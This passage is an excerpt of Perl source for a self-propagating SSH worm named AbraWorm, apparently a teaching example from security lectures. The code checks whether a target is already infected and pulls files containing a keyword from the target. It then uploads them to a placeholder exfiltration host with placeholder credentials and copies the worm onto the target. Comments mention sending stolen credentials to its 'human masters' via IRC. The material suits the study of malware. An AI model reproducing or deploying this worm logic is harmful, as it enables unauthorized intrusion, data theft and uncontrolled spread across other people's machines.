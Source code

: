 ```perl
				my $cmd = 'ls';
				my (@out, $err) = $ssh->capture({ timeout => 10 }, $cmd);
				print $ssh->error if $ssh->error;
				if ((join ' ', @out) =~ /AbraWorm\.pl/m) {
					print "\nThe target machine is already infected\n";
					next;
				}
				# Now look for files at the target host that contain
				# 'abracadabra':
				$cmd = 'grep abracadabra *';
				(@out, $err) = $ssh->capture({ timeout => 10 }, $cmd);
				print $ssh->error if $ssh->error;
				my @files_of_interest_at_target;
				foreach my $item (@out) {
					$item =~ /^(.+):.+$/;
					push @files_of_interest_at_target, $1;
				}
				
				if (@files_of_interest_at_target) {
					foreach my $target_file (@files_of_interest_at_target) {
						$ssh->scp_get($target_file);
					}
				}
				# Now upload the exfiltrated files to a specially designated host,
				# which can be a previously infected host. The worm will only
				# use those previously infected hosts as destinations for
				# exfiltrated files if it was able to send the login credentials
				# used on those hosts to its human masters through, say, a
				# secret IRC channel. (See Lecture 29 on IRC)
				eval {
					if (@files_of_interest_at_target) {
						my $ssh2 = Net::OpenSSH->new(
											'yyy.yyy.yyy.yyy',
											user => 'yyyyy',
											passwd => 'yyyyyyyy',
											master_opts => $opt,
											timeout => 5,
											ctl_dir => '/tmp/');
						# The three 'yyyy' marked lines
						# above are for the host where
						# the worm can upload the files
						# it downloaded from the
						# attached machines.
						my $dir = join '_', split /\./, $ip_address;
						my $cmd2 = "mkdir $dir";
						my (@out2, $err2) = $ssh2->capture({ timeout => 15 }, $cmd2);
						print $ssh2->error if $ssh2->error;
						map {$ssh2->scp_put($_, $dir)} @files_of_interest_at_target;
						if ($ssh2->error) {
							print "No uploading of exfiltrated files\n";
						}
					}
				};
				# Finally, deposit a copy of AbraWorm.pl at the target host:
				$ssh->scp_put($0);
				next if $ssh->error;
			}
		}
	}
	last if $debug;
}

sub get_new_usernames {
```